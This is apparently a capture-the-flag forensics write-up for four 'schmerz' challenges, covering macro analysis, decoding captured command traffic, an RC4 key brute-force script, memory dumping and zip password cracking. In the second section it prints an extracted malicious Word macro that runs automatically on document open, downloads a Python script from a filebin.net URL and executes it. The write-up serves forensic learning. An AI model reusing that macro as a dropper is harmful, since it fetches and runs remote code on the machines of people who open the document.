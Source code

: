 # schmerz-1

**Flag:** `flag{fA3bDt}`

Extracting the filesystem from the `.ad1` file and going into the `C:\Users\challenge\Downloads` directory, we find a `.dotm` file. Running `olevba` on it, we get this

```vb
.
.
.
Sub RegistryEntry()
    Dim keyName As String
    Dim data As String
    Dim path As String
    Dim myWS As Object
    Dim stype As String
    Set myWS = VBA.CreateObject("WScript.Shell")

    path = "HKEY_CURRENT_USER\Software\Uninstall\"
    keyName = "Application"
    keyValue = "fA3bDt"
    stype = "REG_SZ"
    myWS.RegWrite path & keyName, keyValue, stype
End Sub

Sub DownloadAndOpenFile()
.
.
.
```

The value of the registry entry stored by the malicious macro seems to be `fA3bDt`. I can't confirm if this is correct as I couldn't find a writeup, but it most likely should be.

# schmerz-2

**Flag:** `flag{whoami}`

> [!WARNING]
> Look at the edit for the real flag.

The same macro also shows this:

```vb
Sub Document_Open()
    DownloadAndOpenFile
    RegistryEntry
End Sub
.
.
.
Sub DownloadAndOpenFile()
    Dim url As String
    Dim destinationPath As String
    Dim shell As Object
    Dim pythonPath As String
    Dim command As String
    pythonPath = "python.exe"
    url = "https://filebin.net/g5lap7a613mo3x3o/client.py"
    destinationPath = Environ("TEMP") & "\msserver.py"
    With CreateObject("MSXML2.ServerXMLHTTP")
        .Open "GET", url, False
        .send
        If .Status = 200 Then
            Dim stream As Object
            Set stream = CreateObject("ADODB.Stream")
            stream.Open
            stream.Type = 1
            stream.Write .responseBody
            stream.SaveToFile destinationPath, 2
            stream.Close
        End If
    End With
    command = pythonPath & " " & Chr(34) & destinationPath & Chr(34)
    Set shell = CreateObject("WScript.Shell")
    shell.Exec command
End Sub
```

So we can see the first command that seems to run upon the document opening is


```vb
vbpythonPath & " " & Chr(34) & destinationPath & Chr(34)
```

and when you replace all variables with their values,

```py
python.exe "C:\Users\challenge\AppData\Local\Temp\msserver.py}"
```

As with the previous one, I have no clue if this is the correct flag since I couldn't find a writeup, but it should be.

EDIT: So the command was `whoami`, since it was the first command after the remote connection the script made.

# schmerz-3

**Flag** `flag{fA3bDtO6QL}`

We find a file `msserver.py` on the filesystem in `C:\Users\challenge\AppData\Local\Temp\`. This was hinted at in the macro we found in the docm file.

Looking at the code, we see its some kind of encryption scheme for a server that XOR's it with its index and then converts it to base64.

We also have a pcap file `chall.pcap`. With Wireshark we can scan the packets and see base64 data being transferred. We extract the base64 data and reverse XOR it, leading to commands for slowly building a file `a.py` by echo'ing base64 strings into a file `file.txt`.

Decoding the base64 strings in `a.py`, we find another encryption scheme, this time the one the attacker used to encrypt the files. I pasted the code into ChatGPT and it told me it looked like an RC4 encryption schema.

The key in this case is the registry value set earlier (`fA3bDt`), along with 4 random characters. Since we know its a block cipher, we use 4 bytes of the ZIP header that the program encrypted to brute-force the cipher and find the final 4 characters of the key.

```py
from itertools import product
from Crypto.Cipher import ARC4

plaintext = b'PK\x03\x04'
expected_cipher = b'\xe5\x74\xca\x32'
known_key_part = 'fA3bDt'

def rc4_encrypt(key, data):
    cipher = ARC4.new(key.encode())
    return cipher.encrypt(data)

charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
possible_keys = (''.join(p) for p in product(charset, repeat=4))

for part in possible_keys:
    full_key = known_key_part + part
    encrypted = rc4_encrypt(full_key, plaintext)
    print(part)
    if encrypted == expected_cipher:
        print(f'Found key: {full_key}')
        exit(0)
```

With this, we get the last 4 characters as `06QL`, and thus the full key.

# schmerz-4

**Flag:** `flag{ajeet-mestry-UBhpOIHnazM-unsplash}`

Decrypting the ZIP file with the key in the previous challenge, we find its password-protected.

After much looking around and dead ends, I think the password might be in the contents of `notepad.exe`, so I dump it.

```
…/Forensics - June 31st/Challenges/Files/schmerz $ python3 volatility3/vol.py -p ./vol_plugins -f memdump.mem windows.memmap --pid 7536 --dump
```

Then we use `strings` to get a wordlist of all posssible passwords, making sure to include utf-16 strings.

```
…/Forensics - June 31st/Challenges/Files/schmerz $ strings -e l pid.7536.dmp > notepadstr
```

Then we simply use `fcrackzip` to find the password.

```
…/Forensics - June 31st/Challenges/Files/schmerz  master ! +25 -1 $ fcrackzip  -b -D -p notepadstr -u schmerz-4/download.zip


PASSWORD FOUND!!!!: pw == 83KvvO60Zf69Yyq8
```

Using this, we extract a file `tv.jpg` from the ZIP. Putting it into aperisolve, we get the string `ajeet-mestry-UBhpOIHnazM-unsplash`.

The organizer "forgot" the flag and said it was good enough, so yeah.


